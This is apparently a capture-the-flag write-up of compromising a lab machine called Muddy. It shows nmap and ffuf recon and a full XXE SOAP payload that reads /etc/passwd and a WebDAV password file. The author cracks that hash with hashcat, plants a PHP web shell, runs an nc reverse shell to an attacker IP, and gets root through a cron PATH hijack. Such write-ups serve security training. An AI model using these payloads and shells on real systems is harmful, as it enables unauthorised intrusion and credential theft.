# Recon

A number of ports are open and we see there is a redirect on port 80 to `http://muddy.ugc`. I'll be sure to add this to my `/etc/hosts` file.

## nmapAutomator.sh (Full)
```
$ sudo ./nmapAutomator.sh -H muddy.pg -t Full -o full

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
25/tcp   open  smtp          Exim smtpd 4.92
| smtp-commands: muddy Hello muddy.pg [192.168.49.70], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://muddy.ugc/
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  https?
808/tcp  open  ccproxy-http?
908/tcp  open  unknown
8888/tcp open  http          WSGIServer 0.1 (Python 2.7.16)
|_http-server-header: WSGIServer/0.1 Python/2.7.16
|_http-title: Ladon Service Catalog
Service Info: Host: muddy; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## nmapAutomator.sh (Vuln)

We see one of the vuln scripts returned CVE-2005-3299 as "likely vulnerable" although it looks like it failed the repro test. I'll look into this after some more enumeration.

```
$ sudo ./nmapAutomator.sh -H muddy.pg -t Vuln -o vuln

PORT     STATE SERVICE VERSION

[ ... SNIP ... ]

8888/tcp open  http    WSGIServer 0.1 (Python 2.7.16)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-server-header: WSGIServer/0.1 Python/2.7.16
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-vuln-cve2014-3704: ERROR: Script execution failed (use -d to debug)
|_http-aspnet-debug: ERROR: Script execution failed (use -d to debug)
| http-phpmyadmin-dir-traversal: 
|   VULNERABLE:
|   phpMyAdmin grab_globals.lib.php subform Parameter Traversal Local File Inclusion
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2005-3299
|       PHP file inclusion vulnerability in grab_globals.lib.php in phpMyAdmin 2.6.4 and 2.6.4-pl1 allows remote attackers to include local files via the $__redirect parameter, possibly involving the subform array.
|       
|     Disclosure date: 2005-10-nil
|     Extra information:
|       ../../../../../etc/passwd not found.
|   
|     References:
|       http://www.exploit-db.com/exploits/1244/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2005-3299
Service Info: Host: muddy; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumeration

## Port 80

### ffuf (dir scan)

We find a directory named `webdav`

```
________________________________________________

 :: Method           : GET
 :: URL              : http://muddy.ugc:80/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.hta                    [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 4347ms]
.htpasswd               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 4352ms]
.htaccess               [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 4366ms]
                        [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 4416ms]
index.php               [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 138ms]
javascript              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 126ms]
server-status           [Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 122ms]
webdav                  [Status: 401, Size: 456, Words: 42, Lines: 15, Duration: 124ms]
wp-admin                [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 122ms]
wp-includes             [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 120ms]
wp-content              [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 129ms]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1, Duration: 142ms]
```

This looks like it could be interesting.



### Website source

WordPress 5.7 is used.



Searchsploit returns an XXE vuln that might be worth looking into later.



### curl

Apache 2.4.38 is used. Searchsploit returns a possible exploit, although the server might already be patched. 



## Port 8888

A framework named `Ladon` is used on this port. 



I wasn't able to enumerate the version running on the server, but a quick searchsploit returns a single exploit.



## Exploit

https://www.exploit-db.com/exploits/43113

The exploit includes a poc, and replacing all instances of `HelloService` with `muddy`, and `sayhello` with `checkout` as per the existing definitions on Muddy, returns a successful LFI.

```
curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:muddy\"><soapenv:Header/>
<soapenv:Body>
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>
</urn:checkout>
</soapenv:Body>
</soapenv:Envelope>' \
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
```



After some Googling around, I stumble across an article (https://www.techrepublic.com/article/how-to-enable-webdav-on-your-ubuntu-server/) that mentions a password file being set in the root directory of `WebDAV`, named `passwd.dav`. We'll use the LFI exploit to grab the contents of this file.



I'll then use `hashcat` to crack the hash.

`hashcat -m 1600 dav.hash /usr/share/wordlists/rockyou.txt`

This returns `sleepless` as the password for `administrant`.



Now that we have access to `WebDAV`, I'll upload a php web shell.

`echo "<?php echo system(\$_GET['cmd']); ?>" > web.php`



And then test command execution.

`curl "http://muddy.ugc/webdav/web.php?cmd=whoami" -u administrant:sleepless`



It works! Lastly, I'll go to a browser and manually authenticate to send a reverse shell using `nc`.

`http://muddy.ugc/webdav/web.php?cmd=nc+-e+%2Fbin%2Fsh+192.168.49.70+80`



We get a shell back as `www-data`.



Our shell is pretty unstable so I'll make it a bit nicer using the following commands:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`stty raw -echo; fg`



## Privilege Escalation

If we `cat /etc/crontab`, we see there is a job running every minute by `root`, executing `netstat` without an absolute path to the binary. We also see `/dev/shm` is in the path which is writeable by anyone.



I'll create an evil `netstat` on my local machine which will invoke a bash reverse shell.



Followed by `wget`'ing the evil `netstat` into the `/dev/shm` directory. This should be set as an executable as well, so I'll run `chmod 777 netstat`.



With a listener running, we get a shell back as root!

